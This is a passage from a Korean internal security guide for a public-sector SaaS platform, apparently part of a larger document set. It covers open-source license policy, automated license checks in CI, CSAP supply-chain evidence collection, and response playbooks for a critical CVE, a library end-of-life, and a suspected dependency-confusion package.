| Apache-2.0 | 허용 | 저작권 고지 + 변경 사항 명시 |
| BSD-2-Clause | 허용 | 저작권 고지 포함 |
| BSD-3-Clause | 허용 | 저작권 고지 포함 |
| ISC | 허용 | 저작권 고지 포함 |
| CC0-1.0 | 허용 | 조건 없음 |
| Unlicense | 허용 | 조건 없음 |

### 6.2 금지된 라이선스 (GPL, AGPL 위험성)

| 라이선스 | 사용 금지 여부 | 금지 이유 |
|---------|------------|---------|
| GPL-2.0 | 금지 | Copyleft: 우리 소스코드도 오픈소스 의무 |
| GPL-3.0 | 금지 | Copyleft: 우리 소스코드도 오픈소스 의무 |
| AGPL-3.0 | 금지 | Strong Copyleft: 네트워크 서비스도 의무 |
| LGPL-2.1 | 조건부 | 동적 링크만 가능, 정적 포함 불가 |
| LGPL-3.0 | 조건부 | 동적 링크만 가능, 정적 포함 불가 |
| SSPL | 금지 | AGPL보다 강한 의무 (MongoDB) |

**GPL/AGPL이 왜 문제인가**:

```
예시: auth-service에 GPL 라이선스 패키지를 포함하면?

GPL의 Copyleft 의무:
  → auth-service 전체 소스코드를 오픈소스로 공개해야 함
  → 공공기관 SaaS의 비즈니스 로직, 보안 설정이 공개됨
  → CSAP 보안 요건 위반 가능

AGPL의 경우 (더 강함):
  → 네트워크를 통해 서비스를 제공하는 것만으로도
  → 서비스 전체 소스코드 공개 의무 발생
  → 단순히 API를 제공하는 것만으로 해당됨
```

### 6.3 라이선스 자동 검사 (`license-checker`)

```bash
# license-checker 설치
pnpm add -D license-checker

# 전체 의존성 라이선스 목록 생성
npx license-checker --json > license-report.json

# 금지 라이선스 검사
npx license-checker \
  --excludePrivatePackages \
  --failOn "GPL;AGPL;SSPL;LGPL-2.1" \
  --json > license-check-result.json

# CSV 형식 (스프레드시트 제출용)
npx license-checker \
  --csv \
  --out licenses.csv
```

**CI 통합** (`.gitea/workflows/security.yml`에 추가 권장):

```yaml
license-check:
  name: License Compliance Check
  runs-on: self-hosted
  timeout-minutes: 10

  steps:
    - uses: actions/checkout@v4
    - name: Setup pnpm
      uses: pnpm/action-setup@v4
      with:
        version: "9.15.0"
    - name: Install dependencies
      run: pnpm install --frozen-lockfile

    # 금지 라이선스 검사
    - name: License compliance check
      run: |
        npx license-checker \
          --excludePrivatePackages \
          --failOn "GPL-2.0;GPL-3.0;AGPL-3.0;SSPL" \
          --json > license-report.json
        echo "[OK] 라이선스 검사 통과"

    # CSAP 증거로 보존
    - name: Upload license report
      if: always()
      uses: actions/upload-artifact@v4
      with:
        name: license-compliance-report
        path: license-report.json
        retention-days: 365
```

### 6.4 의존성 보안 감사 증거 수집 방법

CSAP 감리 시 제출해야 하는 증거 목록:

```
CSAP D-12-03 공급망 보안 관리 증거:

1. SBOM 목록 (파일)
   위치: Gitea Actions 아티팩트
   파일명: sbom-{서비스명}-{태그}.cdx.json
   보존: 365일

2. 취약점 스캔 결과 (파일)
   위치: Gitea Actions 아티팩트
   파일명: grype-{서비스명}-{태그}.json
   보존: 365일

3. npm audit 결과 (파일)
   위치: Gitea Actions 아티팩트
   파일명: audit-report.json
   보존: 90일 (security.yml) / 365일 (devsecops.yml)

4. 라이선스 검사 결과 (파일)
   위치: Gitea Actions 아티팩트
   파일명: license-report.json
   보존: 365일

5. Cosign SBOM Attestation
   위치: Harbor 레지스트리 (이미지 메타데이터)
   검증: cosign verify-attestation 명령으로 확인

6. 취약점 조치 이력 (문서)
   위치: security/vulnerability-exceptions.md
   내용: 예외 등록 사유, 조치 내용, 재검토일

감리 증거 수집 스크립트:
```

```bash
#!/bin/bash
# scripts/collect-csap-d12-evidence.sh
# CSAP D-12-03 공급망 보안 증거 수집

SERVICE=${1:-"all"}
DATE=$(date +%Y%m%d)
OUTPUT_DIR="csap-evidence-d12-${DATE}"
mkdir -p "${OUTPUT_DIR}"

echo "=== CSAP D-12-03 공급망 보안 증거 수집 시작 ==="

# 1. pnpm audit 실행
echo "1. 의존성 취약점 감사 실행..."
pnpm audit --json > "${OUTPUT_DIR}/pnpm-audit-${DATE}.json" 2>/dev/null || true
pnpm audit > "${OUTPUT_DIR}/pnpm-audit-${DATE}.txt" 2>&1 || true

# 2. 라이선스 검사
echo "2. 라이선스 컴플라이언스 검사..."
npx license-checker --json > "${OUTPUT_DIR}/license-report-${DATE}.json" 2>/dev/null || true

# 3. 취약점 예외 목록
echo "3. 취약점 예외 목록 복사..."
cp security/vulnerability-exceptions.md "${OUTPUT_DIR}/" 2>/dev/null || true

# 4. 감사 요약 생성
cat > "${OUTPUT_DIR}/evidence-summary.md" << EOF
# CSAP D-12-03 공급망 보안 증거 요약

- 수집일: ${DATE}
- 수집자: $(git config user.name)
- 대상 서비스: ${SERVICE}
- CSAP 항목: D-12-03 (공급망 보안 관리)

## 수집된 증거 목록

| 파일명 | 내용 | 도구 |
|--------|------|------|
| pnpm-audit-${DATE}.json | 의존성 취약점 감사 결과 | pnpm audit |
| license-report-${DATE}.json | 라이선스 컴플라이언스 결과 | license-checker |
| vulnerability-exceptions.md | 예외 등록 취약점 목록 | 수동 관리 |

## 결론

자동화된 CI/CD 파이프라인을 통해 모든 의존성에 대한 취약점 검사가
정기적으로 수행되며, 결과가 Gitea Actions 아티팩트로 보존됩니다.
EOF

echo "=== 증거 수집 완료: ${OUTPUT_DIR}/ ==="
ls -la "${OUTPUT_DIR}/"
```

---

## 7. 실전 대응 시나리오

### 7.1 시나리오 1: Critical 취약점 발견 시 긴급 대응

**상황**: CI 파이프라인에서 `express` 패키지에 CVE-2026-XXXXX (CVSS 9.8 Critical) 취약점이 발견됨.

```
긴급 대응 절차 (24시간 SLA):

T+0h  발견
  - Gitea Actions 알림 수신
  - 파이프라인 차단 확인
  - 담당자 즉시 알림 (Slack #security-alerts)

T+1h  영향 평가
  - 취약점 상세 확인 (CVE 번호 → NVD 조회)
  - 영향 받는 서비스 확인 (SBOM 조회)
  - 실제 공격 가능 여부 판단
  
T+4h  수정
  - pnpm update express@{수정버전}
  - 단위 테스트 실행
  - PR 생성 및 긴급 리뷰

T+8h  배포
  - stg 환경 배포 + 검증
  - main 머지 + 운영 배포
  - 패치 완료 확인

T+24h  보고
  - 보안 사고 보고서 작성
  - CSAP D-06 감사 로그 확인
```

**실제 명령어 순서**:

```bash
# 1. 취약점 상세 확인
pnpm audit --json | jq '.advisories[] | select(.severity == "critical")'

# 2. 영향 받는 서비스 확인 (SBOM 활용)
for service in platform/services/*/; do
  if pnpm list express --filter "$(basename $service)" 2>/dev/null | grep -q "express"; then
    echo "영향: $service"
  fi
done

# 3. 수정 버전 확인
npm view express versions --json | jq '.[-5:]'

# 4. 업데이트 적용
pnpm update express@4.20.0  # 수정 버전으로

# 5. 테스트 실행
pnpm test

# 6. 감사 로그 기록
cat >> security/incident-log.md << EOF
## 2026-04-12 긴급 패치

- CVE: CVE-2026-XXXXX
- 패키지: express@4.18.x → 4.20.0
- 심각도: Critical (CVSS 9.8)
- 조치: 버전 업데이트
- 완료 시각: $(date -u +%Y-%m-%dT%H:%M:%SZ)
EOF
```

### 7.2 시나리오 2: 오픈소스 라이브러리 폐기(EOL) 통보

**상황**: `node-fetch` 패키지가 2026년 말로 지원 종료(EOL) 예정 공지가 옴.

```
EOL 대응 절차 (30일 이내):

D-1  발견 및 평가
  - 사용 중인 서비스 목록 파악
  - 대안 패키지 조사 (built-in fetch vs node-fetch v3 vs axios)
  - 마이그레이션 복잡도 평가

D-5  대안 선택
  - Node.js 22의 빌트인 fetch 사용 결정 (외부 의존성 제거!)
  - 타입 정의 확인 (TypeScript 호환성)
  - 동작 차이점 파악 (API 호환성)

D-10~D-20  마이그레이션
  - 서비스별 node-fetch 교체 작업
  - 테스트 케이스 업데이트
  - PR 생성 및 리뷰

D-25  완료
  - 모든 서비스에서 node-fetch 제거
  - package.json에서 의존성 제거
  - SBOM 재생성으로 확인
```

**마이그레이션 예시**:

```typescript
// 변경 전: node-fetch 사용
import fetch from 'node-fetch'

const response = await fetch('https://api.example.com/data')
const data = await response.json()

// 변경 후: Node.js 22 빌트인 fetch 사용
// import 불필요! 전역으로 제공됨

const response = await fetch('https://api.example.com/data')
const data = await response.json()

// 주의: node-fetch와 빌트인 fetch의 차이점
// - Response.buffer() → Response.arrayBuffer() (이름 변경)
// - AbortSignal.timeout() 지원 (빌트인에서만)
// - 멀티파트 폼 데이터 처리 방식 차이 확인 필요
```

### 7.3 시나리오 3: 공급망 공격 의심 패키지 발견

**상황**: 팀원이 npm에서 `@public-saas/utils` 같은 이름의 패키지를 발견함 (실제 우리 내부 패키지와 동일한 이름의 외부 패키지).

이것은 **Dependency Confusion 공격** 시도일 수 있습니다.

**Dependency Confusion 공격 설명**:

```
정상 상황:
  회사 내부 npm 레지스트리에 @company/utils@1.0.0 존재
  
공격:
  공격자가 공개 npm에 @company/utils@2.0.0 (더 높은 버전) 업로드
  pnpm이 공개 레지스트리에서 더 높은 버전을 가져와 설치
  → 악성 코드 실행
```

**즉각 대응 절차**:

```bash
# 1. 의심 패키지 즉시 조사
npm view @public-saas/utils

# 2. 설치 여부 확인
pnpm list | grep "@public-saas/utils"

# 3. 패키지 출처 확인
cat node_modules/@public-saas/utils/package.json | jq '.publishConfig'
# 내부 레지스트리 URL이어야 함. 공개 npm이면 의심!

# 4. .npmrc 확인 (레지스트리 설정)
cat .npmrc
# @public-saas:registry=http://internal-npm.saas.local  ← 이렇게 설정되어야 함

# 5. 만약 감염 의심 시:
# 즉시 서비스 격리
kubectl scale deployment auth-service --replicas=0 -n saas-platform

# 보안 팀 즉시 연락
echo "의심 패키지 발견" | mail -s "[긴급] 공급망 공격 의심" security@company.kr
```

**Dependency Confusion 예방**:

```ini
# .npmrc (프로젝트 루트)
# 내부 패키지는 반드시 내부 레지스트리에서만 가져옴
@public-saas:registry=http://internal-npm.saas.local
@company:registry=http://internal-npm.saas.local

# 공개 패키지는 공개 레지스트리 사용
registry=https://registry.npmjs.org/
```

---

## 8. 변경 이력

| 버전 | 일자 | 내용 | 작성자 |
|------|------|------|--------|
| 1.0.0 | 2026-04-12 | 초안 작성 — 의존성 보안 전체 가이드 | Implementer (Sonnet) |

---

**관련 문서**:
- `06-cicd/06-supply-chain-security.md` — 공급망 보안 전체 전략 (상위 문서)
- `07-security/csap/04-compliance-automation.md` — CSAP 자동화 증거 수집
- `07-security/coding/01-secure-patterns.md` — 보안 코딩 패턴
- `.gitea/workflows/sbom-scan.yml` — SBOM 생성 워크플로우 (실제 구현)
- `.gitea/workflows/security.yml` — 의존성 감사 워크플로우 (실제 구현)
- `.gitea/workflows/devsecops.yml` — DevSecOps 파이프라인 (실제 구현)
